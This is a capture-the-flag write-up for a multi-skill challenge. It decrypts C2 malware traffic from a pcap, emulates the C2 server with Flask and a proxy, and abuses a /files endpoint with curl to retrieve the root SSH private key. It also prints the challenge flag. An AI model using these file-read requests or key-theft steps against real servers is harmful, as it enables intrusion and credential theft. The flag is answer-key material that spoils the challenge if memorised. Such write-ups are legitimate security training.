

# the-office - [forensics, crypto, rev, web] [hard]
###  Files: [the-office.tar.gz](https://ctf.m0unt41n.ch/handouts/the-office.tar.gz)
```graphql
├── capture_file.pcap
├── docker-compose.yaml
├── server
│   ├── Dockerfile
│   └── start.sh
└── victim
    ├── Dockerfile
    ├── flag.txt
    └── src
└── client
```
## Analysis:
### Hints:
The description for this challenge contains multiple hints that might help us later while analyzing the challenge:
> The office's main computer had been hacked, communicating with an unknown C2 server, and for reasons beyond comprehension, Gary was tasked with unraveling this digital conundrum. (Gary is the finance guy)
> 
> Hint:This is a extreme parcour multi skill challenge make sure you understand where the flag is located</br>
> Hint:Sometimes bruteforce is the solution (or at least part of it)</br>
> Hint:172.105.87.133 was a C2 server obviously

tl:dr;
1. We are working with 2 containers, a Command & Control server (C2), and a client that connects to the C2 server.
2. The IP of the C2 Server that the client is connecting to is `172.105.87.133`
3. We might have to use some amount of bruteforce.
4. It's important to keep in mind where our target (the flag) is located and act appropriately.

### Overview:
The download for this challenge consists of 3 parts: a wireshark capture, a docker environment for the client and a docker environment for the C2 server.



### Wireshark Capture:
#### Filter out Communications to the server:
We know from the hints that the C2 server's IP is `172.105.87.133`, so we can set a filter that only shows requests that are going to or coming from this specific IP. This reduces the number of packets significantly and also reveals that most of the packets are plain unencrypted HTTP.

We can conclude from that that the malware communicates to the C2 server through HTTP reuqests

#### HTTP API
because the communication is HTTP, we can get an insight into what endpoints/routes the client was talking to, and what data was exchanged:

##### /gen_keys `GET`
*Request:*
```json
```
*Response:*
```json
{
    "A": 350,
    "client_id": "6d1201ab97aba6a7",
    "g": 547,
    "p": 827
}
```
##### /recv_keys `POST`
*Request:*
```json
{
    "B": 322,
    "client_id": "6d1201ab97aba6a7"
}
```
*Response:*
```json
{
    "message": "Key exchange successfull"
}
```

##### /recv `POST`
*Request:*
```json
{
    "client_id": "6d1201ab97aba6a7"
}
```
*Response:*
```json
{
    "encrypted_command": "[some random chars]"
}
```

##### /send `POST`
*Request:*
```json
{
    "client_id": "6d1201ab97aba6a7",
    "data": "[some encrypted stuff]"
}
```
*Response:*
```
"Recieved data"
```

#### Packet timing:
We can take a look at the timestamps, to get an even better idea about what's going on:

| Num.: | Endpoint:      | Comment:                                            |
|-------|----------------|-----------------------------------------------------|
| 0     | **/gen_keys**  |                                                     |
| 1     | **/recv_keys** |                                                     |
| 2     | /recv          |                                                     |
| 3     | **/send**      |                                                     |
| 4     | /recv          | Same packet-contents as packet number 2             |
| 5     | /recv          | Same packet-contents as packet number 2             |
| 6     | /recv          | Same packet-contents as packet number 2             |
| 7     | /recv          | Same packet-contents as packet number 2             |
| 8     | /recv          | Same packet-contents as packet number 2             |
| ...   | ........       | ..............                                      |
| 327   | /recv          | **NOT the Same packet-contents as packet number 2** |
| 328   | **/send**      |                                                     |
| 329   | /recv          | Same packet-contents as packet number 327           |
| 330   | /recv          | Same packet-contents as packet number 327           |
| ...   | ........       | ..............                                      |
| 426   | /recv          | **NOT Same packet-contents as packet number 327**   |
| 427   | */send*        |                                                     |
| 428   | /recv          | Same packet-contents as packet number 426           |
| ...   | ........       | ..............                                      |

**Conclusion:** We can make an educated guess based on the contents of the capture file, that the program works as follows:

1. The C2 Server & Client perform some form of key exchange
2. The Client contacts the Server at regular intervals and gets the current task that he's supposed to do. If the task is not the same as the previous one (a different command was set), the command gets executed and the result is sent to the */send* endpoint.
3. The communication between the Client & the server is encrypted for the */recv* and */send* endpoints, the exact crypto implementation used here isn't known yet'.
4. The capture contains 2 encrypted commands:
    ```json
    {
        "encrypted_command": "LCohJmkhLCUlJg=="
    }
    ```
    ```json
    {
        "encrypted_command": "LCohJmlrBCYnICIoaT4hMGktJic9aTAmPGk5OyAnPWk9ISxpLDEqLCVpLyAlLGkgJ2kIeGkvJjskKD12aw=="
    }
    ```

### Server:
Let's take a closer look at the C2 server next:

We are given 2 files, the first one being the Dockerfile, and the second one being a custom-startup shell script:

<details>
<summary><b>./server/Dockerfile</b></summary>

```Dockerfile
FROM python:3.8-slim-buster

RUN apt-get update && \
    apt-get install -y openssh-server tmux

ADD . .
RUN chmod +x start.sh
RUN pip install -r requirements.txt

RUN mkdir /root/.ssh && \
    ssh-keygen -t rsa -b 4096 -f /root/.ssh/id_rsa -q -N "" && \
    cp /root/.ssh/id_rsa.pub /root/.ssh/authorized_keys
RUN mkdir /var/run/sshd

EXPOSE 22
EXPOSE 8000 

CMD ["./start.sh"]
```

</details>
<details>
<summary><b>./server/start.sh</b></summary>

```sh
#!/bin/bash
tmux kill-session -t websession 2>/dev/null

tmux new-session -d -s websession 'exec python ./server.py'

/usr/sbin/sshd -D
```

</details>

There are a few things that are happening here:
1. SSH Server:
    - The Dockerfile installs an SSH Server inside the Docker container and generates a random key pair for the root user
    - The Dockerfile exposes port 22, the port that SSH is listening on.
    - The custom-startup script starts the SSH Server.

2. [Tmux:](https://www.redhat.com/sysadmin/introduction-tmux-linux)
    - The Dockerfile also installs Tmux alongside SSH
    - Our custom-startup script launches a Python program in a Tmux session

3. server.py
    - The source code for the server (server.py) is not provided in the download, therefore we only know what we found out through the package dump & client. 

### Victim:
Finally, let's take a quick look at the malware / C2 Client.

<details>
<summary><b>Dockerfile</b></summary>

```Dockerfile
FROM ubuntu:latest

RUN apt-get update && \
    apt-get install -y libcurl4-gnutls-dev curl && \
    rm -rf /var/lib/apt/lists/*

WORKDIR /app

COPY ./src/client /app/client
COPY ./flag.txt /app/flag.txt

RUN chmod +x /app/client

CMD ["/app/client"]
```

</details>

The client container uses an Ubuntu base image and adds a binary program (the malware) and the flag (**flag.txt**) to it. The container starts the malware on startup.

We can use a decompiler to inspect the binary file, here are a few key lines from the decompiled program:

<details>
<summary><b>decompiled(client).pseudocode.c</b></summary>

```c
void recv_and_execute_command(int64_t arg1, int64_t arg2) {
    ...
    /*
    - check if new command is not the same as the last one
    - if not, decrypt the new command, run it and send output to server
    */
    if ((ptr != (char *)0x0) && (iVar1 = strcmp(ptr, last_command.0), iVar1 != 0)) {
        size = strlen(ptr);
        var_70h = (void *)malloc(size);
        ...    
        intf("BEFORE DECRYPTION: %s\n", ptr);
        xor_encrypt_decrypt(ptr, size, (void *)(arg2 & 0xffffffff), var_70h);
        strncpy(last_command.0, ptr, 0x3ff);
        data.0000c59f = (code)0x0;
        printf("AFTER DECRYPTION: %s\n", var_70h);
        var_78h = execute_command((char *)var_70h);
        printf("RESULT: %s\n", var_78h);
        send_result((char *)var_78h, arg1, (int64_t)(int32_t)arg2);
        free(ptr);
    }
    ...
    return;
}

void main(void) {
    ...
    sleep(10);
    ...
    /* perform key exchange and get shared key. The shared-key will be used for encryption*/
    get_keys((int64_t)&var_18h, (int64_t)&var_20h + 4, (int64_t)&var_20h, (char *)&var_68h);
    iVar1 = rand();
    var_ch._0_4_ = iVar1 % (int32_t)(uint32_t)var_20h;
    var_10h = mod_pow((uint64_t)var_18h, (uint64_t)(uint32_t)var_ch, (uint64_t)(uint32_t)var_20h);
    var_14h = mod_pow((uint64_t)var_20h._4_4_, (uint64_t)(uint32_t)var_ch, (uint64_t)(uint32_t)var_20h);
    
    /* print sharde-key */
    printf("SHARED KEY: %d\n", var_14h);
    
    /* send shared-key to C2 Server */
    send_keys((uint64_t)var_10h, (int64_t)&var_68h);

    /* loop forever, execute a new command if necessary, wait 1s between atempts */
    do {
        recv_and_execute_command((int64_t)&var_68h, (uint64_t)var_14h);
        sleep(1);
    } while( true );
}
```

</details>

This decompiled "pseudocode" more or less confirms what we already knew from the wireshark dump. One interesting additional piece of information that we got, is that the client logs everything, including the commands before they get decrypted, after they get encrypted, the key that was used... This "feature" might come in handy and save us some work later.


## Reverse-Engineering the server
### Fakeserver:
While we don't have the source code of the server itself, we already have plenty of information about how it works / what routes the server has. We can use this information to try to partially reverse-engineer the missing server.py file. I've started by creating a simple Flask application that implements all known HTTP routes:

For now, the server just returns the same data that was captured, the goal is to try to replicate the exchange that was recorded. The hope is that if we replicate the key exchange 1:1, the client will decrypt the command for us.

<details>
<summary><b>fakeserver.py</b></summary>

```py
from flask import Flask, jsonify, request
import json
app = Flask(__name__)

@app.route('/gen_keys', methods=['GET'])
def gen_keys():
    response = {
        "A": 350,
        "client_id": "6d1201ab97aba6a7",
        "g": 547,
        "p": 827
    }
    return jsonify(response)

@app.route('/recv_keys', methods=['POST'])
def recv_keys():
    print(request.get_json())
    return jsonify({"message": "Key exchange successfull"})

@app.route('/recv', methods=['POST'])
def recv():
    print(request.get_json())
    return jsonify({"encrypted_command": "Kjw7JWkhPT05c2ZmeH57Z3h5fGdxfmd4enpzcXl5eWYvICUsOmlkAWlrCiYnPSwnPWQdMDksc2koOTklICooPSAmJ2YjOiYna2lkEWkZBhodaWRkLSg9KGluMmsqJSAsJz0WIC1rc2lrKH1xei9xfXx9fH0rfHh9fmtlaWs6ISg7LC0WIiwwa3Npa356a2VpazkoPSFrc2lrZjsmJj1mOyw4PCA7LCQsJz06Zz0xPWs0bg=="})

@app.route('/send', methods=['POST'])
def send():
    print(request.get_json())
    return jsonify("Recieved data")

app.run(host='0.0.0.0', port=8000)
```

</details>

After replacing the missing server and starting the docker-compose environment we get the following output in the command line:

```
{"A":350,"client_id":"6d1201ab97aba6a7","g":547,"p":827}

SHARED KEY: 73
{"message":"Key exchange successfull"}
BEFORE DECRYPTION: *<;%i!==9sffx~{gxy|gq~gxzzsqyyyf/ %,:idik
&'=,'=d09,si(99% *(= &'f#:&'kidiidd-(=(in2k*% ,'= -ksik(}qz/q}|}|}+|x}~keik:!(;,-",0ksik~zkeik9(=!ksikf;&&=f;,8< ;,$,'=:g=1=k4n
AFTER DECRYPTION: curl http://172.105.87.133:8000/files -H "Content-Type: application/json" -X POST --data '{"client_id": "a483f845454b5147", "shared_key": "73", "path": "/root/requirements.txt"}'k~zkeiQ	
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (7) Failed to connect to 172.105.87.133 port 8000 after 15 ms: Couldn't connect to server
RESULT:
"Recieved data"
```

As shown in the output above, we were successfully able to decrypt the command that was sent to the victim. The command made a curl request to a `/files` endpoint, that's interesting because we didn't know this endpoint even existed before.

### `/files` endpoint
Let's take a closer look at the `/files` endpoint:
##### /files `POST`
*Request:*
```json
{
    "client_id": "a483f845454b5147",
    "shared_key": "73",
    "path": "/root/requirements.txt"
}
```
*Response:*
```json
?
```

This endpoint allows us to get a file from a specific directory on the server, we might be able to use this to steal the root user's SSH key. To be able to do that, we have to provide two valid arguments: a client_id and the shared_key. Conveniently our local C2 client logs both of them.

Furthermore, we don't have to do any cryptography work ourselves, because the client already authenticates with the server and prints out all the information that we might need.

## Exploiting the actual server
To allow our local client to talk to the actual challenge server, I have modified `fakeserver.py` so it sort of acts as a "man in the middle", and forwards all requests to the actual C2 server.


<details>
<summary><b>fakeserver_mitm.py</b></summary>

```py
from flask import Flask, jsonify, request
import requests

C2S = "https://<UUID>.ctf.m0unt41n.ch:1337/"

app = Flask(__name__)

@app.route('/gen_keys', methods=['GET'])
def gen_keys():
    response = requests.get(
        f"{C2S}/gen_keys",
        headers=request.headers
    )
    print(response.status_code)
    print(f"Response: {response.json()}")
    return jsonify(response.json())

@app.route('/recv_keys', methods=['POST'])
def recv_keys():
    print(f"Request: {request.get_json()}")
    response = requests.post(
        f"{C2S}/recv_keys",
        headers=request.headers,
        json=request.get_json()
    )
    print(response.status_code)
    print(f"Response: {response.json()}")
    return jsonify(response.json())

@app.route('/recv', methods=['POST'])
def recv():
    print(f"Request: {request.get_json()}")
    response = requests.post(
        f"{C2S}/recv",
        headers=request.headers,
        json=request.get_json()
    )
    print(response.status_code)
    print(f"Response: {response.json()}")
    return jsonify(response.json())

@app.route('/send', methods=['POST'])
def send():
    response = requests.post(
        f"{C2S}/send",
        headers=request.headers,
        json=request.get_json()
    )
    print(response.status_code)
    print(f"Response: {response.text}")
    return jsonify(response.text)

@app.route('/files', methods=['GET'])
def file():
    response = requests.post(
        f"{C2S}/files",
        headers=request.headers,
        json=request.get_json()
    )
    print(response.status_code)
    print(f"Response: {response.text}")
    return response.text

app.run(host='0.0.0.0', port=8000)
```

</details>

We can use the info that was printed out by the client to get the root users SSH key:

```sh
curl https://<UUID>.ctf.m0unt41n.ch:1337/files -H "Content-Type: application/json" -X POST --data '{"client_id": "<CLIENT_ID>", "shared_key": "<SHARED_KEY>", "path": "/root/.ssh/id_rsa"}'
```

Getting the flag is just a matter of connecting to the remote instance, attaching to the Tmux session and sending the command `cat flag.txt`:

```
shc2024{pwn_th3_4PT_1s_1338}
```